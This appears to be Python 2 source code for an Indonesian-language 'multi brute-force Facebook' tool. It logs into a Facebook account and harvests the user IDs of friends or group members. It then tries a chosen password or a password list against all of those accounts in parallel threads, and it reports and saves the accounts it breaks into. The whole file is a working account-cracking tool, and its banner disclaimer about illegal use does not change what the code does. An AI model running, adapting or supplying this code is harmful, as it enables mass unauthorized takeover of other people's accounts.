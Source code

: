 
from __future__ import print_functionimport platform,osdef tampil(x):	w = {'m':31,'h':32,'k':33,'b':34,'p':35,'c':36}	for i in w:		x=x.replace('\r%s'%i,'\033[%s;1m'%w[i])	x+='\033[0m'	x=x.replace('\r0','\033[0m')	print(x)if platform.python_version().split('.')[0] != '2':	tampil('\rm[!] kamu menggunakan python versi %s silahkan menggunakan versi 2.x.x'%v().split(' ')[0])	os.sys.exit()import cookielib,re,urllib2,urllib,threadingtry:	import mechanizeexcept ImportError:	tampil('\rm[!]SepertiNya Module \rcmechanize\rm belum di install...')	os.sys.exit()def keluar():	simpan()	tampil('\rm[!]Keluar')	os.sys.exit()log = 0id_bteman = []id_bgroup = []fid_bteman = []fid_bgroup = []br = mechanize.Browser()br.set_handle_robots(False)br.set_handle_equiv(True)br.set_handle_referer(True)br.set_cookiejar(cookielib.LWPCookieJar())br.set_handle_redirect(True)br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]def bacaData():	global fid_bgroup,fid_bteman	try:		fid_bgroup = open(os.sys.path[0]+'/MBFbgroup.txt','r').readlines()	except:pass	try:		fid_bteman = open(os.sys.path[0]+'/MBFbteman.txt','r').readlines()	except:passdef inputD(x,v=0):	while 1:		try:			a = raw_input('\x1b[32;1m%s\x1b[31;1m:\x1b[33;1m'%x)		except:			tampil('\n\rm[!]Batal')			keluar()		if v:			if a.upper() in v:				break			else:				tampil('\rm[!]Masukan Opsinya Bro...')				continue		else:			if len(a) == 0:				tampil('\rm[!]Masukan dengan benar')				continue			else:				break	return adef inputM(x,d):	while 1:		try:			i = int(inputD(x))		except:			tampil('\rm[!]Pilihan tidak ada')			continue		if i in d:			break		else:			tampil('\rm[!]Pilihan tidak ada')	return idef simpan():	if len(id_bgroup) != 0:		tampil('\rh[*]Menyimpan hasil dari group')		try:			open(os.sys.path[0]+'/MBFbgroup.txt','w').write('\n'.join(id_bgroup))			tampil('\rh[!]Berhasil meyimpan \rcMBFbgroup.txt')		except:			tampil('\rm[!]Gagal meyimpan')	if len(id_bteman) != 0:		tampil('\rh[*]Menyimpan hasil daftar Teman...')		try:			open(os.sys.path[0]+'/MBFbteman.txt','w').write('\n'.join(id_bteman))			tampil('\rh[!]Berhasil meyimpan \rcMBFbgteman.txt')		except:			tampil('\rm[!]Gagal meyimpan')def buka(d):	tampil('\rh[*]Membuka \rp'+d)	try:		x = br.open(d)		br._factory.is_html = True		x = x.read()	except:		tampil('\rm[!]Gagal membuka \rp'+d)		keluar()	if '<link rel="redirect" href="' in x:		return buka(br.find_link().url)	else:		return xdef login():	global log	us = inputD('[?]Email/HP')	pa = inputD('[?]Kata Sandi')	tampil('\rh[*]Sedang Login....')	buka('https://m.facebook.com')	br.select_form(nr=0)	br.form['email']=us	br.form['pass']=pa	br.submit()	url = br.geturl()	if 'save-device' in url or 'm_sess' in url:		tampil('\rh[*]Login Berhasil')		buka('https://mobile.facebook.com/home.php')		nama = br.find_link(url_regex='logout.php').text		nama = re.findall(r'\((.*a?)\)',nama)[0]		tampil('\rh[*]Selamat datang \rk%s\n\rh[*]Semoga ini adalah hari keberuntungan mu....'%nama)		log = 1	elif 'checkpoint' in url:		tampil('\rm[!]Akun kena checkpoint\n\rk[!]Coba Login dengan opera mini')		keluar()	else:		tampil('\rm[!]Login Gagal')def saring_id_teman(r):	for i in re.findall(r'/friends/hovercard/mbasic/\?uid=(.*?)&',r):		id_bteman.append(i)		tampil('\rc==>\rb%s\rm'%i)def saring_id_group1(d):	for i in re.findall(r'<h3><a href="/(.*?)fref=pb',d):		if i.find('profile.php') == -1:			a = i.replace('?','')		else:			a = i.replace('profile.php?id=','').replace('&amp;','')		if a not in id_bgroup:			tampil('\rk==>\rc%s'%a)			id_bgroup.append(a)def saring_id_group0():	global id_group	while 1:		id_group = inputD('[?]Id Group')		tampil('\rh[*]Mengecek Group....')		a = buka('https://m.facebook.com/browse/group/members/?id='+id_group+'&amp;start=0&amp;listType=list_nonfriend&amp;refid=18&amp;_rdc=1&amp;_rdr')		nama = ' '.join(re.findall(r'<title>(.*?)</title>',a)[0].split()[1:])		try:			next = br.find_link(url_regex= '/browse/group/members/').url			break		except:			tampil('\rm[!]Id yang anda masukan salah')			continue	tampil('\rh[*]Mengambil Id dari group \rc%s'%nama)	saring_id_group1(a)	return nextdef idgroup():	if log != 1:		tampil('\rh[*]Login dulu bos...')		login()		if log == 0:			keluar()	next = saring_id_group0()	while 1:		saring_id_group1(buka(next))		try:			next = br.find_link(url_regex= '/browse/group/members/').url		except:			tampil('\rm[!]Hanya Bisa Mengambil \rh %d id'%len(id_bgroup))			break	simpan()	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])	if i.upper() == 'Y':		return crack(id_bgroup)	else:		return menu()def idteman():	if log != 1:		tampil('\rh[*]Login dulu bos...')		login()		if log == 0:			keluar()	saring_id_teman(buka('https://m.facebook.com/friends/center/friends/?fb_ref=fbm&ref_component=mbasic_bookmark&ref_page=XMenuController'))	try:		next = br.find_link(url_regex= 'friends_center_main').url	except:		if len(id_teman) != 0:			tampil('\rm[!]Hanya dapat mengambil \rp%d id'%len(id_bteman))		else:			tampil('\rm[!]Batal')			keluar()	while 1:		saring_id_teman(buka(next))		try:			next = br.find_link(url_regex= 'friends_center_main').url		except:			tampil('\rm[!]Hanya dapat mengambil \rp%d id'%len(id_bteman))			break	simpan()	i = inputD('[?]Langsung Crack (y/t)',['Y','T'])	if i.upper() == 'Y':		return crack(id_bteman)	else:		return menu()class mt(threading.Thread): def __init__(self,i,p): threading.Thread.__init__(self) self.id = i self.a = 3 self.p = p def update(self): return self.a,self.id def run(self): try: data = urllib2.urlopen(urllib2.Request(url='https://m.facebook.com/login.php',data=urllib.urlencode({'email':self.id,'pass':self.p}),headers={'User-Agent':'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16'})) except KeyboardInterrupt: os.sys.exit() except: self.a = 8 os.sys.exit() if 'm_sess' in data.url or 'save-device' in data.url: self.a = 1 elif 'checkpoint' in data.url: self.a = 2 else: self.a = 0def crack(d):	i = inputD('[?]Pake Passwordlist/Manual (p/m)',['P','M'])	if i.upper() == 'P':		while 1:			dir = inputD('[?]Masukan alamat file')			try:				D = open(dir,'r').readlines()			except:				tampil('\rm[!]Gagal membuka \rk%s'%dir)				continue			break		tampil('\rh[*]Memulai crack dengan \rk%d password'%len(D))		for i in D:			i = i.replace('\n','')			if len(i) != 0:				crack0(d,i,0)		i = inputD('[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])		if i.upper() == 'Y':			return crack(d)		else:			return menu()	else:		return crack0(d,inputD('[?]Sandi'),1)def crack0(data,sandi,p):	tampil('\rh[*]MengCrack \rk%d Akun \rhdengan sandi \rm[\rk%s\rm]'%(len(data),sandi))	print('\033[32;1m[*]Cracking \033[31;1m[\033[36;1m0%\033[31;1m]\033[0m',end='')	os.sys.stdout.flush()	akun_jml = []	akun_sukses = []	akun_cekpoint = []	akun_error = []	akun_gagal = []	jml0,jml1 = 0,0	th = []	for i in data:		i = i.replace(' ','')		if len(i) != 0:th.append(mt(i,sandi))	for i in th:		jml1 += 1		i.daemon = True		try:i.start()		except KeyboardInterrupt:exit()	while 1:		try:			for i in th:				a = i.update()				if a[0] != 3 and a[1] not in akun_jml:					jml0 += 1					if a[0] == 2:						akun_cekpoint.append(a[1])					elif a[0] == 1:						akun_sukses.append(a[1])					elif a[0] == 0:						akun_gagal.append(a[1])					elif a[0] == 8:						akun_error.append(a[1])					print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m%0.2f%s\033[31;1m]\033[0m'%(float((float(jml0)/float(jml1))*100),'%'),end='')					os.sys.stdout.flush()					akun_jml.append(a[1])		except KeyboardInterrupt:			os.sys.exit()		try:			if threading.activeCount() == 1:break		except KeyboardInterrupt:			keluar()	print('\r\033[32;1m[*]Cracking \033[31;1m[\033[36;1m100%\033[31;1m]\033[0m ')	if len(akun_sukses) != 0:		tampil('\rh[*]Daftar akun sukses')		for i in akun_sukses:			tampil('\rh==>\rk%s \rm[\rp%s\rm]'%(i,sandi))	tampil('\rh[*]Jumlah akun berhasil\rp %d'%len(akun_sukses))	tampil('\rm[*]Jumlah akun gagal\rp %d'%len(akun_gagal))	tampil('\rk[*]Jumlah akun cekpoint\rp %d'%len(akun_cekpoint))	tampil('\rc[*]Jumlah akun error\rp %d'%len(akun_error))	if p:		i = inputD('[?]Tidak Puas dengan Hasil,Mau coba lagi (y/t)',['Y','T'])		if i.upper() == 'Y':			return crack(data)		else:			return menu()	else:		return 0def lanjutT():	global fid_bteman	if len(fid_bteman) != 0:		i = inputD('[?]Riset Hasil Id Teman/lanjutkan (r/l)',['R','L'])		if i.upper() == 'L':			return crack(fid_bteman)		else:			os.remove(os.sys.path[0]+'/MBFbteman.txt')			fid_bteman = []	return 0def lanjutG():	global fid_bgroup	if len(fid_bgroup) != 0:		i = inputD('[?]Riset Hasil Id Group/lanjutkan (r/l)',['R','L'])		if i.upper() == 'L':			return crack(fid_bgroup)		else:			os.remove(os.sys.path[0]+'/MBFbgroup.txt')			fid_bgroup = []	return 0def menu():	tampil('''\rh .-.-.. /+/++// /+/++// \rk* *\rh /+/++// \ / |/__// {\rmX\rh}v{\rmX\rh}|\rcPRX\rh|==========. ['] /'|'\ \\ / \ \ ' \_ \_ \_ \rk*\rhDragonFly ZomBie\rk############################################################ \rb*MULTY BRUTEFORCE FACEBOOK*\rk ## \rhBY\rp PIRMANSX \rk## \rhGroup FB\rp https://m.facebook.com/groups/164201767529837 \rk## \rhGitHub\rp https://github.com/pirmansx \rk## \rmDo Not Use This Tool For IllegaL Purpose \rk############################################################''')	tampil('''\rk%s\n\rc1 \rhAmbil id dari group\n\rc2 \rhAmbil id dari daftar teman\n\rc3 \rmKELUAR\n\rk%s'''%('#'*20,'#'*20))	i = inputM('[?]PILIH',[1,2,3])	if i == 1:		lanjutG()		idgroup()	elif i == 2:		lanjutT()		idteman()	elif i == 3:		keluar()bacaData()menu()

